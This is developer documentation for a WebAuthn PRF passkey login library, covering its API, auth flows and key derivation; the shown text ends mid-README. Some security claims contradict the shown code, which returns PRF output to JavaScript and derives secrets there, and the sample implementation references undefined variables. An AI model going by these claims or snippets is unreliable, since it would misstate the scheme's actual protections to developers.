# MAIA SELF/API REFERENCE

*Source: developers/01_maia-self/api-reference.md*

# API Reference

Complete API reference for `@MaiaOS/self` package.

---

## Authentication Functions

### `signUpWithPasskey(options)`

Create a new passkey and derive deterministic account.

**Parameters:**
- `options.name` (string, default: `"maia"`) - Display name for the account
- `options.salt` (string, default: `"maia.city"`) - Salt for PRF derivation

**Returns:** `Promise<{accountID: string, agentSecret: Object, node: Object, account: Object, credentialId: string}>`

**Throws:** If PRF not supported

**Example:**
```javascript
import { signUpWithPasskey } from '@MaiaOS/self';

const { accountID, agentSecret, node, account } = await signUpWithPasskey({
  name: "maia",
  salt: "maia.city"
});

// accountID: "co_z..." (public identifier)
// agentSecret: Ephemeral (never store!)
// node: LocalNode instance (active session)
// account: RawAccount instance (your cojson account)
```

**Note:** Shows 1 biometric prompt (single-passkey flow!)

---

### `signInWithPasskey(options)`

Sign in with existing passkey.

**Parameters:**
- `options.salt` (string, default: `"maia.city"`) - Salt for PRF derivation (must match signup)

**Returns:** `Promise<{accountID: string, agentSecret: Object, node: Object, account: Object}>`

**Throws:** If PRF not supported or no passkey found

**Example:**
```javascript
import { signInWithPasskey } from '@MaiaOS/self';

const { accountID, agentSecret, node, account } = await signInWithPasskey({
  salt: "maia.city"
});

// Loads existing account from Jazz sync server
// Returns same structure as signUpWithPasskey
// ⚡ Only 1 biometric prompt (fast login!)
```

**Note:** Shows only 1 biometric prompt (fast login!)

---

## Feature Detection

### `isPRFSupported()`

Check if WebAuthn PRF is supported (async version).

**Returns:** `Promise<boolean>`

**Throws:** If not supported, with instructions

**Example:**
```javascript
import { isPRFSupported } from '@MaiaOS/self';

try {
  await isPRFSupported();
  console.log("PRF supported!");
} catch (error) {
  console.error(error.message); // Instructions for user
}
```

---

### `requirePRFSupport()`

Strictly require PRF support (throws on unsupported browsers).

**Returns:** `Promise<void>`

**Throws:** If not supported, with detailed browser upgrade instructions

**Example:**
```javascript
import { requirePRFSupport } from '@MaiaOS/self';

try {
  await requirePRFSupport();
  // PRF is supported, proceed with authentication
} catch (error) {
  // Show error message to user with upgrade instructions
  showBrowserUpgradeMessage(error.message);
}
```

---

## Sync State Monitoring

### `subscribeSyncState(listener)`

Subscribe to sync status changes.

**Parameters:**
- `listener` (Function) - Callback: `(state) => void`
  - `state.connected` (boolean) - WebSocket connected?
  - `state.syncing` (boolean) - Actively syncing?
  - `state.error` (string | null) - Error message if any

**Returns:** `Function` - Unsubscribe function

**Example:**
```javascript
import { subscribeSyncState } from '@MaiaOS/self';

const unsubscribe = subscribeSyncState((state) => {
  console.log("Sync status:", state);
  // { connected: true, syncing: true, error: null }
});

// Later: unsubscribe when done
unsubscribe();
```

---

## PRF Functions

### `evaluatePRF(options)`

Evaluate PRF with existing passkey.

**Parameters:**
- `options.salt` (Uint8Array) - Salt for PRF evaluation
- `options.rpId` (string, optional) - Relying Party ID (defaults to current domain)

**Returns:** `Promise<{prfOutput: Uint8Array, credentialId: ArrayBuffer}>`

**Example:**
```javascript
import { evaluatePRF, stringToUint8Array } from '@MaiaOS/self';

const { prfOutput, credentialId } = await evaluatePRF({
  salt: stringToUint8Array("maia.city")
});

// prfOutput: 32 bytes of deterministic entropy
// credentialId: Passkey credential ID
```

---

### `createPasskeyWithPRF(options)`

Create a new passkey with PRF enabled.

**Parameters:**
- `options.name` (string) - User-visible name
- `options.userId` (Uint8Array) - User ID
- `options.rpId` (string, optional) - Relying Party ID (defaults to current domain)
- `options.salt` (Uint8Array, optional) - Evaluate PRF during creation

**Returns:** `Promise<{credentialId: ArrayBuffer, response: Object, prfOutput?: Uint8Array}>`

**Example:**
```javascript
import { createPasskeyWithPRF, stringToUint8Array } from '@MaiaOS/self';

const { credentialId, prfOutput } = await createPasskeyWithPRF({
  name: "maia",
  userId: crypto.getRandomValues(new Uint8Array(32)),
  salt: stringToUint8Array("maia.city")
});

// credentialId: Passkey credential ID
// prfOutput: 32 bytes (if salt provided)
```

---

### `getExistingPasskey(rpId)`

Get an existing passkey (for sign-in).

**Parameters:**
- `rpId` (string, optional) - Relying Party ID (defaults to current domain)

**Returns:** `Promise<{credentialId: ArrayBuffer, userId: Uint8Array}>`

**Example:**
```javascript
import { getExistingPasskey } from '@MaiaOS/self';

const { credentialId, userId } = await getExistingPasskey();

// credentialId: Passkey credential ID
// userId: User handle from passkey
```

---

## Utility Functions

### `arrayBufferToBase64(buffer)`

Convert ArrayBuffer to base64 string.

**Parameters:**
- `buffer` (ArrayBuffer) - Buffer to convert

**Returns:** `string` - Base64 string

---

### `base64ToArrayBuffer(base64)`

Convert base64 string to ArrayBuffer.

**Parameters:**
- `base64` (string) - Base64 string

**Returns:** `ArrayBuffer` - Buffer

---

### `stringToUint8Array(str)`

Convert string to Uint8Array.

**Parameters:**
- `str` (string) - String to convert

**Returns:** `Uint8Array` - Byte array

---

### `uint8ArrayToHex(arr)`

Convert Uint8Array to hex string.

**Parameters:**
- `arr` (Uint8Array) - Byte array

**Returns:** `string` - Hex string

---

### `isValidAccountID(accountID)`

Validate accountID format (should start with "co_z").

**Parameters:**
- `accountID` (string) - Account ID to validate

**Returns:** `boolean` - True if valid

---

## Storage Functions

### `getStorage()`

Get IndexedDB storage for CoValue persistence.

**Returns:** `Promise<StorageAPI | undefined>` - Storage instance or undefined if unavailable

**Example:**
```javascript
import { getStorage } from '@MaiaOS/self';

const storage = await getStorage();

if (storage) {
  console.log("IndexedDB available for local caching");
} else {
  console.log("IndexedDB unavailable (incognito mode?)");
}
```

---

## Complete Integration Example

```javascript
import { 
  signUpWithPasskey, 
  signInWithPasskey, 
  subscribeSyncState,
  requirePRFSupport 
} from '@MaiaOS/self';
import { createMaiaOS } from '@MaiaOS/kernel';

async function init() {
  // Check PRF support first
  try {
    await requirePRFSupport();
  } catch (error) {
    showBrowserUpgradeMessage(error.message);
    return;
  }
  
  // Show sign-in UI with both "Sign In" and "Register" buttons
  renderSignInPrompt();
}

async function register() {
  try {
    // Create new account (1 biometric prompt)
    const { node, account, accountID } = await signUpWithPasskey({
      name: "maia",
      salt: "maia.city"
    });
    
    console.log("✅ Registered! Account ID:", accountID);
    
    // Subscribe to sync state
    subscribeSyncState((state) => {
      console.log("Sync:", state.connected ? "Online" : "Offline");
    });
    
    // Create MaiaOS with node and account
    const o = await createMaiaOS({ node, account, accountID });
    
    // Show app UI
    renderApp(o);
  } catch (error) {
    console.error("Registration failed:", error.message);
  }
}

async function signIn() {
  try {
    // Load existing account (1 biometric prompt - fast!)
    const { node, account, accountID } = await signInWithPasskey({
      salt: "maia.city"
    });
    
    console.log("✅ Signed in! Account ID:", accountID);
    
    // Subscribe to sync state
    subscribeSyncState((state) => {
      console.log("Sync:", state.connected ? "Online" : "Offline");
    });
    
    // Create MaiaOS with node and account
    const o = await createMaiaOS({ node, account, accountID });
    
    // Show app UI
    renderApp(o);
  } catch (error) {
    console.error("Sign in failed:", error.message);
    
    // If no passkey found, suggest registration
    if (error.message.includes("No passkey found")) {
      console.log("No passkey found. Please register first.");
    }
  }
}
```

---

## Related Documentation

- [Main README](./README.md) - Package overview
- [security-analysis.md](./security-analysis.md) - Security analysis
- [auth-flows.md](./auth-flows.md) - Registration and login flows
- [cryptography.md](./cryptography.md) - Bottom-up cryptography concepts

---

# MAIA SELF/AUTH FLOWS

*Source: developers/01_maia-self/auth-flows.md*

# Authentication Flows

Complete documentation of registration and login flows in `@MaiaOS/self`.

---

## Overview

`@MaiaOS/self` uses a **single-passkey flow** with deterministic account derivation. The key breakthrough: accountID can be computed **before** account creation, enabling a clean, elegant architecture.

---

## Registration Flow

### The Breakthrough: Deterministic AccountID

**Traditional approach:**
- Create account → Get random accountID → Store in passkey
- Requires 2 passkeys (temp + final) or storage

**MaiaOS approach:**
- Compute accountID deterministically → Create account → Verify match
- Requires only 1 passkey (single-passkey flow!)

**Why this works:**
- Account headers have `createdAt: null` and `uniqueness: null` (no random fields!)
- `accountID = shortHash(header)` is a **pure function** of agentSecret
- Same agentSecret → Same accountID (always!)

---

### Step-by-Step Registration

```
┌─────────────────────────────────────────────────────────────┐
│ STEP 1: Create Passkey and Evaluate PRF                    │
│                                                             │
│ const { credentialId, prfOutput } = await                  │
│   createPasskeyWithPRF({                                    │
│     name: "maia",                                           │
│     userId: randomBytes(32),                                │
│     salt: stringToUint8Array("maia.city")                   │
│   });                                                       │
│                                                             │
│ User sees: 1 biometric prompt                               │
│ PRF evaluation happens in Secure Enclave/TPM!              │
│ Returns: 32 bytes of deterministic entropy                  │
└─────────────────────────────────────────────────────────────┘
                         ↓
┌─────────────────────────────────────────────────────────────┐
│ STEP 2: ⚡ COMPUTE AccountID Deterministically              │
│                                                             │
│ const agentSecret = crypto.agentSecretFromSecretSeed(      │
│   prfOutput                                                 │
│ );                                                          │
│                                                             │
│ const accountHeader = accountHeaderForInitialAgentSecret(  │
│   agentSecret, crypto                                       │
│ );                                                          │
│                                                             │
│ const computedAccountID = idforHeader(                     │
│   accountHeader, crypto                                     │
│ );                                                          │
│                                                             │
│ // accountID computed BEFORE account creation!              │
│ // header has createdAt: null, uniqueness: null            │
└─────────────────────────────────────────────────────────────┘
                         ↓
┌─────────────────────────────────────────────────────────────┐
│ STEP 3: Create Account (Verify AccountID Match)            │
│                                                             │
│ const result = await LocalNode.withNewlyCreatedAccount({   │
│   crypto,                                                   │
│   initialAgentSecret: agentSecret,                          │
│   creationProps: { name: "maia" },                         │
│   peers: [jazzSyncPeer],                                    │
│   storage: indexedDBStorage                                 │
│ });                                                         │
│                                                             │
│ // Verification                                             │
│ if (result.accountID !== computedAccountID) {             │
│   throw Error("AccountID mismatch!");                       │
│ }                                                           │
└─────────────────────────────────────────────────────────────┘
                         ↓
┌─────────────────────────────────────────────────────────────┐
│ RESULT: Account Created & Synced!                           │
│                                                             │
│ • Passkey stores private key (hardware-protected)          │
│ • IndexedDB stores CoValue data locally                    │
│ • Jazz Cloud syncs account across devices                  │
│ • NO localStorage usage (zero browser storage!)            │
│                                                             │
│ User can now use the app on this and other devices!        │
└─────────────────────────────────────────────────────────────┘
```

---

### Registration Code Example

```javascript
import { signUpWithPasskey } from '@MaiaOS/self';

async function register() {
  try {
    // Create new account (1 biometric prompt)
    const { accountID, agentSecret, node, account } = await signUpWithPasskey({
      name: "maia",
      salt: "maia.city"
    });
    
    console.log("✅ Registered! Account ID:", accountID);
    console.log("⚠️  agentSecret is ephemeral - never store it!");
    
    // Use node and account for app initialization
    return { node, account, accountID };
  } catch (error) {
    console.error("Registration failed:", error.message);
    throw error;
  }
}
```

---

## Login Flow

### The Breakthrough: Re-Evaluate PRF

**Traditional approach:**
- Load accountID from storage → Load account
- Requires storage (localStorage or server)

**MaiaOS approach:**
- Re-evaluate PRF → Compute accountID → Load account
- Requires NO storage (everything computed on-demand!)

**Why this works:**
- PRF is deterministic (same passkey + salt → same output)
- AccountID is deterministic (same agentSecret → same accountID)
- Everything recomputed from passkey each time

---

### Step-by-Step Login

```
┌─────────────────────────────────────────────────────────────┐
│ STEP 1: Authenticate and Re-Evaluate PRF                   │
│                                                             │
│ const { prfOutput } = await evaluatePRF({                  │
│   salt: stringToUint8Array("maia.city")                    │
│ });                                                         │
│                                                             │
│ User sees: 1 biometric prompt                               │
│ PRF evaluation happens in Secure Enclave/TPM!              │
│ Returns: Same 32 bytes as registration (deterministic!)    │
└─────────────────────────────────────────────────────────────┘
                         ↓
┌─────────────────────────────────────────────────────────────┐
│ STEP 2: Derive AgentSecret                                  │
│                                                             │
│ const agentSecret = crypto.agentSecretFromSecretSeed(      │
│   prfOutput                                                 │
│ );                                                          │
│                                                             │
│ // Same prfOutput → Same agentSecret (deterministic!)       │
└─────────────────────────────────────────────────────────────┘
                         ↓
┌─────────────────────────────────────────────────────────────┐
│ STEP 3: ⚡ COMPUTE AccountID Deterministically              │
│                                                             │
│ const accountHeader = accountHeaderForInitialAgentSecret(  │
│   agentSecret, crypto                                       │
│ );                                                          │
│                                                             │
│ const accountID = idforHeader(                             │
│   accountHeader, crypto                                     │
│ );                                                          │
│                                                             │
│ // Same agentSecret → Same accountID (deterministic!)       │
│ // NO storage needed - computed on the fly!                 │
└─────────────────────────────────────────────────────────────┘
                         ↓
┌─────────────────────────────────────────────────────────────┐
│ STEP 4: Load Account                                        │
│                                                             │
│ const node = await LocalNode.withLoadedAccount({           │
│   accountID,         // Computed from PRF!                  │
│   accountSecret: agentSecret,  // Derived from PRF!        │
│   sessionID: crypto.newRandomSessionID(accountID),        │
│   peers: [jazzSyncPeer],     // Jazz Cloud sync            │
│   storage: indexedDBStorage  // Local cache                │
│ });                                                         │
└─────────────────────────────────────────────────────────────┘
                         ↓
┌─────────────────────────────────────────────────────────────┐
│ RESULT: Logged In!                                          │
│                                                             │
│ • Account loaded from IndexedDB (if available)              │
│ • Or fetched from Jazz Cloud (cross-device sync)            │
│ • NO localStorage dependencies                              │
│ • Only 1 biometric prompt (no PRF re-evaluation needed!)    │
│                                                             │
│ User can now access their data!                             │
└─────────────────────────────────────────────────────────────┘
```

---

### Login Code Example

```javascript
import { signInWithPasskey } from '@MaiaOS/self';

async function login() {
  try {
    // Load existing account (1 biometric prompt - fast!)
    const { accountID, agentSecret, node, account } = await signInWithPasskey({
      salt: "maia.city"
    });
    
    console.log("✅ Signed in! Account ID:", accountID);
    console.log("⚠️  agentSecret is ephemeral - never store it!");
    
    // Use node and account for app initialization
    return { node, account, accountID };
  } catch (error) {
    console.error("Sign in failed:", error.message);
    
    // If no passkey found, suggest registration
    if (error.message.includes("No passkey found")) {
      console.log("No passkey found. Please register first.");
    }
    
    throw error;
  }
}
```

---

## Cross-Device Flow

### How Cross-Device Works

```
┌─────────────────────────────────────────────────────────────┐
│ Device A: Registration                                      │
│                                                             │
│ 1. Create passkey (stored in Secure Enclave)               │
│ 2. Passkey syncs to iCloud/Google (automatic)              │
│ 3. Account syncs to Jazz Cloud (automatic)                 │
└─────────────────────────────────────────────────────────────┘
                         ↓
┌─────────────────────────────────────────────────────────────┐
│ Device B: Login                                             │
│                                                             │
│ 1. Same passkey available (synced from iCloud/Google)        │
│ 2. Re-evaluate PRF → Same prfOutput                         │
│ 3. Compute accountID → Same accountID                       │
│ 4. Load account from Jazz Cloud → Seamless access          │
└─────────────────────────────────────────────────────────────┘
```

**Key Points:**
- Passkeys sync automatically via iCloud/Google
- Accounts sync automatically via Jazz Cloud
- No manual migration needed
- Same passkey + salt → same account (always!)

---

## Flow Comparison

### Traditional Password Manager

```
Registration:
1. User creates master password
2. Password hashed → stored in vault
3. Vault encrypted → stored on server
4. User must remember password

Login:
1. User enters password
2. Password verified → vault decrypted
3. User accesses passwords

Cross-Device:
1. User enters password on new device
2. Vault synced from server
3. User accesses passwords
```

**Problems:**
- Password can be stolen (phishing, keylogger)
- Password can be forgotten (locked out)
- Server breach risk (encrypted vaults stored)

---

### MaiaOS (Passkey-Based)

```
Registration:
1. User creates passkey (biometric)
2. PRF evaluated → agentSecret derived
3. AccountID computed → account created
4. No password to remember!

Login:
1. User authenticates with passkey (biometric)
2. PRF re-evaluated → agentSecret derived
3. AccountID computed → account loaded
4. Only 1 biometric prompt!

Cross-Device:
1. Passkey synced (iCloud/Google)
2. PRF re-evaluated → same agentSecret
3. AccountID computed → same account
4. Account synced (Jazz Cloud)
```

**Benefits:**
- ✅ No password to steal (biometric only)
- ✅ No password to forget (biometric always available)
- ✅ Server breach safe (master secret never stored)

---

## Implementation Details

### Registration Implementation

```javascript
// libs/maia-self/src/self.js

export async function signUpWithPasskey({ name = "maia", salt = "maia.city" } = {}) {
  await requirePRFSupport();
  
  const saltBytes = stringToUint8Array(salt);
  const crypto = await WasmCrypto.create();
  
  // STEP 1: Create passkey and evaluate PRF
  const { credentialId, prfOutput } = await createPasskeyWithPRF({
    name,
    userId: globalThis.crypto.getRandomValues(new Uint8Array(32)),
    salt: saltBytes,
  });
  
  // STEP 2: Compute accountID deterministically
  const agentSecret = crypto.agentSecretFromSecretSeed(prfOutput);
  const accountHeader = accountHeaderForInitialAgentSecret(agentSecret, crypto);
  const computedAccountID = idforHeader(accountHeader, crypto);
  
  // STEP 3: Create account
  const storage = await getStorage();
  const syncSetup = setupJazzSyncPeers(apiKey);
  
  const result = await LocalNode.withNewlyCreatedAccount({
    crypto,
    initialAgentSecret: agentSecret,
    creationProps: { name },
    peers: syncSetup.peers,
    storage,
  });
  
  // STEP 4: Verify accountID matches
  if (result.accountID !== computedAccountID) {
    throw Error("AccountID mismatch!");
  }
  
  return { accountID: result.accountID, agentSecret, node: result.node, account };
}
```

---

### Login Implementation

```javascript
// libs/maia-self/src/self.js

export async function signInWithPasskey({ salt = "maia.city" } = {}) {
  await requirePRFSupport();
  
  const saltBytes = stringToUint8Array(salt);
  
  // STEP 1: Re-evaluate PRF
  const { prfOutput } = await evaluatePRF({ salt: saltBytes });
  
  // STEP 2: Derive agentSecret
  const crypto = await WasmCrypto.create();
  const agentSecret = crypto.agentSecretFromSecretSeed(prfOutput);
  
  // STEP 3: Compute accountID deterministically
  const accountHeader = accountHeaderForInitialAgentSecret(agentSecret, crypto);
  const accountID = idforHeader(accountHeader, crypto);
  
  // STEP 4: Load account
  const storage = await getStorage();
  const syncSetup = setupJazzSyncPeers(apiKey);
  
  const node = await LocalNode.withLoadedAccount({
    accountID,
    accountSecret: agentSecret,
    crypto,
    peers: syncSetup.peers,
    storage,
  });
  
  const account = node.expectCurrentAccount("signInWithPasskey");
  
  return { accountID: account.id, agentSecret, node, account };
}
```

---

## Key Insights

### Why Deterministic AccountID Works

**Account headers have NO random fields:**
```javascript
{
  type: "comap",
  ruleset: { type: "group", initialAdmin: agentID },
  meta: { type: "account" },
  createdAt: null,  // ← Not random!
  uniqueness: null  // ← Not random!
}
```

**Therefore:**
- `accountID = shortHash(header)` is a **pure function**
- Same agentSecret → Same header → Same accountID (always!)
- Can compute accountID **before** account creation

---

### Why Single-Passkey Flow Works

**Traditional approach:**
- Need accountID to store in passkey
- But accountID only known after account creation
- Solution: Create temp passkey → Create account → Create final passkey (2 prompts)

**MaiaOS approach:**
- Compute accountID deterministically (before account creation!)
- Create single passkey (1 prompt)
- Create account (verify ID matches)

**Result:** Cleaner architecture, better UX, same security!

---

## Related Documentation

- [Main README](./README.md) - Package overview
- [security-analysis.md](./security-analysis.md) - Security analysis
- [cryptography.md](./cryptography.md) - Bottom-up cryptography concepts
- [api-reference.md](./api-reference.md) - API reference

---

# MAIA SELF/CRYPTOGRAPHY

*Source: developers/01_maia-self/cryptography.md*

# Bottom-Up Cryptography Concepts

Understanding the cryptographic foundations of `@MaiaOS/self` from first principles.

---

## Overview

This document explains the cryptography used in `@MaiaOS/self` from the ground up, starting with the most fundamental concepts and building to the complete system.

---

## Layer 1: PRF (Pseudo-Random Function)

### What is a PRF?

Think of a PRF like a **magic blender** that takes two ingredients and produces a unique, random-looking output:

```
PRF(passkey, salt) → 32 bytes of random-looking data
```

**Key Properties:**
- **Deterministic:** Same inputs → same output (always!)
- **Random-looking:** Output looks random (can't predict it)
- **One-way:** Can't reverse it (can't get passkey from output)

### WebAuthn PRF Extension

**What it is:**
- Hardware-backed PRF evaluation
- Runs in Secure Enclave/TPM (hardware chip)
- Cannot be extracted by software

**Why it matters:**
- Secrets never computed in JavaScript
- Hardware isolation provides stronger security
- Cannot be stolen by XSS attacks or malware

### PRF Evaluation

```javascript
// Evaluate PRF with existing passkey
const { prfOutput } = await evaluatePRF({
  salt: stringToUint8Array("maia.city")
});

// prfOutput: 32 bytes of deterministic entropy
// Same passkey + same salt → same prfOutput (always!)
```

**What happens:**
1. Browser prompts for biometric (fingerprint/face)
2. Secure Enclave evaluates PRF(passkey, salt)
3. Returns 32-byte output (never leaves hardware during evaluation)
4. Output used to derive secrets

---

## Layer 2: AgentSecret Derivation

### What is AgentSecret?

AgentSecret is the **master key** for your account. It's derived from the PRF output and used to:
- Sign transactions (prove you authorized them)
- Seal data (encrypt for specific groups)
- Derive other secrets

### Derivation Process

```
PRF Output (32 bytes)
    ↓ crypto.agentSecretFromSecretSeed()
AgentSecret
    Format: "sealerSecret_z.../signerSecret_z..."
```

**Code:**
```javascript
const agentSecret = crypto.agentSecretFromSecretSeed(prfOutput);

// agentSecret contains:
// - sealerSecret: For encrypting data
// - signerSecret: For signing transactions
```

**Key Properties:**
- **Deterministic:** Same PRF output → same AgentSecret (always!)
- **Ephemeral:** Never stored, derived on-demand
- **Master key:** Used to derive all other secrets

---

## Layer 3: AgentID Derivation

### What is AgentID?

AgentID is your **public cryptographic identity**. It's derived from AgentSecret and contains:
- Public signing key (for verifying signatures)
- Public sealing key (for encrypting data to you)

### Derivation Process

```
AgentSecret
    ↓ crypto.getAgentID()
AgentID
    Format: "sealer_z.../signer_z..."
```

**Code:**
```javascript
const agentID = crypto.getAgentID(agentSecret);

// agentID contains:
// - sealer: Public encryption key
// - signer: Public signing key
```

**Key Properties:**
- **Public:** Can be shared (it's your identity)
- **Deterministic:** Same AgentSecret → same AgentID (always!)
- **Cryptographic identity:** Used to identify you in transactions

---

## Layer 4: AccountID Derivation

### What is AccountID?

AccountID is your **account identifier**. It's a deterministic hash of the account header, which contains:
- Account type (comap)
- Ruleset (group with you as admin)
- Metadata (account type)
- **NO random fields!** (createdAt: null, uniqueness: null)

### Derivation Process

```
AgentSecret
    ↓ accountHeaderForInitialAgentSecret()
Account Header
    {
      type: "comap",
      ruleset: { type: "group", initialAdmin: agentID },
      meta: { type: "account" },
      createdAt: null,  // ← Not random!
      uniqueness: null  // ← Not random!
    }
    ↓ idforHeader()
AccountID
    Format: "co_z..."
```

**Code:**
```javascript
const accountHeader = accountHeaderForInitialAgentSecret(agentSecret, crypto);
const accountID = idforHeader(accountHeader, crypto);

// accountID: "co_z..." (public identifier)
// Same agentSecret → Same accountID (always!)
```

**Key Properties:**
- **Deterministic:** Same AgentSecret → same AccountID (always!)
- **Public:** Can be shared (it's your account identifier)
- **Computable before creation:** No random fields means we can compute it before creating the account!

---

## The Complete Chain

### From PRF to AccountID

```
┌─────────────────────────────────────────┐
│ Layer 1: PRF Output (32 bytes)         │
│ Source: WebAuthn PRF in Secure Enclave │
│ Storage: NEVER stored                   │
└─────────────────────────────────────────┘
              ↓ crypto.agentSecretFromSecretSeed()
┌─────────────────────────────────────────┐
│ Layer 2: AgentSecret                    │
│ Format: "sealerSecret_z.../signer..."   │
│ Storage: NEVER stored, ephemeral        │
└─────────────────────────────────────────┘
              ↓ crypto.getAgentID()
┌─────────────────────────────────────────┐
│ Layer 3: AgentID                         │
│ Format: "sealer_z.../signer_z..."       │
│ Storage: Public (can be shared)         │
└─────────────────────────────────────────┘
              ↓ accountHeaderForInitialAgentSecret() + idforHeader()
┌─────────────────────────────────────────┐
│ Layer 4: AccountID                       │
│ Format: "co_z..."                        │
│ Storage: Public (can be stored)          │
└─────────────────────────────────────────┘
```

### Deterministic Property

**The key insight:** Every step is deterministic!

```
Same passkey + same salt
    ↓
Same PRF output
    ↓
Same AgentSecret
    ↓
Same AgentID
    ↓
Same Account Header (no random fields!)
    ↓
Same AccountID
```

**Why this matters:**
- Can compute AccountID **before** account creation
- Same passkey + salt → same account (always!)
- Cross-device recovery without storage
- No "forgot password" flow needed

---

## Cryptographic Primitives

### BLAKE3 Hash Function

**What it is:**
- Fast, secure hash function
- Used for deriving secrets from PRF output

**Usage:**
```javascript
// Internal to crypto.agentSecretFromSecretSeed()
const sealerSecret = BLAKE3(prfOutput, context="seal");
const signerSecret = BLAKE3(prfOutput, context="sign");
```

**Properties:**
- **Deterministic:** Same input → same output
- **One-way:** Can't reverse it
- **Fast:** Optimized for performance

---

### Ed25519 Signing

**What it is:**
- Elliptic curve signature scheme
- Used for signing transactions

**Usage:**
```javascript
// Internal to cojson
const signature = ed25519.sign(message, signerSecret);
const isValid = ed25519.verify(message, signature, signerPublicKey);
```

**Properties:**
- **Fast:** Efficient signing and verification
- **Secure:** Based on elliptic curve cryptography
- **Deterministic:** Same message + secret → same signature

---

### X25519 Key Exchange

**What it is:**
- Elliptic curve key exchange
- Used for encrypting data (sealing)

**Usage:**
```javascript
// Internal to cojson
const sharedSecret = x25519.computeSharedSecret(sealerSecret, recipientPublicKey);
const encrypted = encrypt(data, sharedSecret);
```

**Properties:**
- **Fast:** Efficient key exchange
- **Secure:** Based on elliptic curve cryptography
- **Forward secret:** New keys for each encryption

---

## Security Properties

### What Makes It Secure

#### 1. Hardware-Backed Secrets

**PRF evaluation in Secure Enclave/TPM:**
- Secrets never computed in JavaScript
- Hardware isolation protects against software attacks
- Cannot be extracted by XSS or malware

#### 2. Deterministic Derivation

**Same inputs → same outputs:**
- No randomness in account headers
- AccountID computable before creation
- Cross-device recovery without storage

#### 3. Ephemeral Secrets

**Secrets never stored:**
- AgentSecret derived on-demand
- Wiped after use
- Cannot be stolen from storage

#### 4. Zero-Knowledge Sync

**Server cannot decrypt:**
- All data encrypted with user's keys
- Server stores encrypted blobs only
- User controls encryption keys

---

## Attack Resistance

### What Attacks Are Prevented

#### 1. XSS (Cross-Site Scripting)

**Attack:** Malicious code steals secrets from browser storage.

**Prevention:**
- ✅ No secrets in browser storage
- ✅ PRF evaluation in hardware (XSS can't access)
- ✅ Secrets derived on-demand (nothing to steal)

#### 2. Keylogger

**Attack:** Malware records keyboard input to steal password.

**Prevention:**
- ✅ No keyboard input (biometric only)
- ✅ Keylogger cannot capture fingerprint/face
- ✅ PRF evaluation in hardware (keylogger can't see)

#### 3. Memory Dump

**Attack:** Malware reads computer memory to find secrets.

**Prevention:**
- ✅ Secrets cleared immediately after use
- ✅ Ephemeral secrets (derived on-demand)
- ✅ PRF evaluation in hardware (not in RAM)

#### 4. Server Breach

**Attack:** Hackers break into sync server.

**Prevention:**
- ✅ Master secret never stored anywhere
- ✅ Server stores encrypted blobs only
- ✅ User controls encryption keys

---

## Implementation Details

### PRF Evaluation

```javascript
// libs/maia-self/src/prf-evaluator.js

export async function evaluatePRF({ salt, rpId = window.location.hostname }) {
  const assertion = await navigator.credentials.get({
    publicKey: {
      challenge: crypto.getRandomValues(new Uint8Array(32)),
      rpId: rpId,
      userVerification: 'required',
      authenticatorAttachment: 'platform',
      hints: ['client-device'],
      extensions: {
        prf: {
          eval: {
            first: salt, // The salt we want to evaluate
          }
        }
      }
    },
    mediation: 'optional',
  });

  const prfResults = assertion.getClientExtensionResults()?.prf;
  return {
    prfOutput: new Uint8Array(prfResults.results.first),
    credentialId: assertion.rawId,
  };
}
```

### AgentSecret Derivation

```javascript
// Internal to cojson/crypto
export function agentSecretFromSecretSeed(secretSeed: Uint8Array): AgentSecret {
  const sealerSecret = blake3(secretSeed, { context: "seal" });
  const signerSecret = blake3(secretSeed, { context: "sign" });
  
  return {
    sealerSecret: `sealerSecret_z${encode(sealerSecret)}`,
    signerSecret: `signerSecret_z${encode(signerSecret)}`,
  };
}
```

### AccountID Derivation

```javascript
// Internal to cojson
export function accountHeaderForInitialAgentSecret(
  agentSecret: AgentSecret,
  crypto: CryptoProvider
): AccountHeader {
  const agentID = crypto.getAgentID(agentSecret);
  
  return {
    type: "comap",
    ruleset: {
      type: "group",
      initialAdmin: agentID,
    },
    meta: {
      type: "account",
    },
    createdAt: null,  // ← Not random!
    uniqueness: null,  // ← Not random!
  };
}

export function idforHeader(header: AccountHeader, crypto: CryptoProvider): CoID {
  const hash = crypto.shortHash(header);
  return `co_z${encode(hash)}`;
}
```

---

## Related Documentation

- [Main README](./README.md) - Package overview
- [security-analysis.md](./security-analysis.md) - Security analysis
- [auth-flows.md](./auth-flows.md) - Registration and login flows
- [api-reference.md](./api-reference.md) - API reference

---

# MAIA SELF/README

*Source: developers/01_maia-self/README.md*

# maia-self: Self-Sovereign Identity

## Overview

The `@MaiaOS/self` package provides hardware-backed, zero-storage authentication for MaiaOS using WebAuthn PRF (Pseudo-Random Function). Think of it as your digital identity card that lives in hardware and never stores secrets in the browser.

**What it is:**
- ✅ **Hardware-backed authentication** - Uses Secure Enclave/TPM for secret derivation
- ✅ **Zero secret storage** - All secrets derived on-demand (NO localStorage!)
- ✅ **Deterministic accounts** - Same passkey + salt = same account (always!)
- ✅ **Self-sovereign** - You control your identity, no server-side account database
- ✅ **Cross-device sync** - Passkeys sync via iCloud/Google, accounts via Jazz Cloud

**What it isn't:**
- ❌ **Not password-based** - Uses biometrics (fingerprint/face) only
- ❌ **Not server-dependent** - No server-side account storage required
- ❌ **Not localStorage-dependent** - Zero secrets in browser storage

---

## The Simple Version

Think of `maia-self` like a magic fingerprint scanner:

**Traditional password manager:**
- You remember a master password
- Password unlocks a vault stored in browser storage
- If someone steals the password, they get everything

**MaiaOS with maia-self:**
- Your fingerprint unlocks a hardware chip (Secure Enclave)
- The chip generates secrets on-demand (never stored!)
- Even if someone hacks your browser, there's nothing to steal

**Analogy:**
Imagine two ways to keep your diary safe:

1. **Password-based:** Locked diary with a password you write down
   - If someone finds the password, they read everything
   - If you forget the password, you're locked out forever

2. **MaiaOS (passkey-based):** Magic diary that only opens with your fingerprint
   - No password to steal or forget
   - Only YOUR fingerprint works (can't be tricked)
   - Magic happens in a special chip that hackers can't reach

---

## Architecture

### The Secret Hierarchy

```
┌─────────────────────────────────────────┐
│ Layer 1: PRF Output (32 bytes)         │
│ Source: WebAuthn PRF in Secure Enclave │
│ Storage: NEVER stored, derived on-demand│
└─────────────────────────────────────────┘
              ↓ crypto.agentSecretFromSecretSeed()
┌─────────────────────────────────────────┐
│ Layer 2: AgentSecret                    │
│ Format: "sealerSecret_z.../signer..."   │
│ Storage: NEVER stored, ephemeral         │
└─────────────────────────────────────────┘
              ↓ crypto.getAgentID()
┌─────────────────────────────────────────┐
│ Layer 3: AgentID                        │
│ Format: "sealer_z.../signer_z..."      │
│ Purpose: Public cryptographic identity  │
